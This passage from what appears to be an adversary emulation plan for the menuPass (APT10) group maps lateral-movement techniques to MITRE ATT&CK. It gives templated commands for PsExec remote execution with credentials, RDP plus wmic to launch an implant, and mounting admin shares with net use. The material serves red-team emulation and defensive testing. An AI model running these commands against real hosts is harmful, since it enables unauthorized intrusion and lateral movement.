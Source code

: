 #### 5.A - System Services: Service Execution ([T1569.002](https://attack.mitre.org/techniques/T1569/002))

menuPass appears to have used different versions of the PsExec tool to achieve the same purpose, remote code execution.  Reporting indicates the attackers may have used Sysinternals PsExec and a compiled version of Impacket's psexec.py.<sup>[5](https://www.fireeye.com/blog/threat-research/2017/04/apt10_menupass_grou.html)</sup> <sup>[7](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup> <sup>[12](https://us-cert.cisa.gov/ncas/alerts/TA17-117A)</sup>

```cmd
"#{psexec_local_path}"\psexec.exe "#{domain}"\"#{psexec_user}":"#{psexec_password}"@"#{psexec_remote_host}" "#{psexec_cmd}"
```

Example:

```cmd
psexec.exe domain\Administrator:badpassword123@192.0.2.10
```

#### Alternative Procedure 1: Remote Services - Remote Desktop Protocol ([T1021.001](https://attack.mitre.org/techniques/T1021/001))

menuPass has used RDP to move laterally.<sup>[4](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-report-final-v4.pdf)</sup> <sup>[7](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup>  RDP grants the attacker console access to a remote host.  This access can be leveraged to deploy tactical malware.  There are a number of ways by which the implant could be executed, but this example will detail how to do so using WMI.

1. Access - Access the remote host via RDP.

```cmd
mstsc /v #{ip_address}
```

2. Deploy - Upload tactical malware to the remote host via RDP session.

3. Execute - Use wmic to run the implant

```cmd
wmic /node:#{ip_address} /user:#{"user_name"} /password#{"password"} process call create #{file_to_execute}
```

#### Alternative Procedure 2: Remote Services - SMB/Windows Admin Shares ([T1021.002](https://attack.mitre.org/techniques/T1021/002)), Lateral Tool Transfer ([T1570](https://attack.mitre.org/techniques/T1570))

menuPass is reported to have moved laterally by mounting a network share, copying a file to the mounted share, and creating a scheduled task via Windows Task Scheduler to run the file.  After execution, the file was deleted.<sup>[10](https://recordedfuture.com/apt10-cyberespionage-campaign/)</sup>

1. Access - Mount a Network Share.

```cmd
net use #{drive}: #{ip_address}\#{drive} #{password} /user:#{domain}\#{user_name}
```

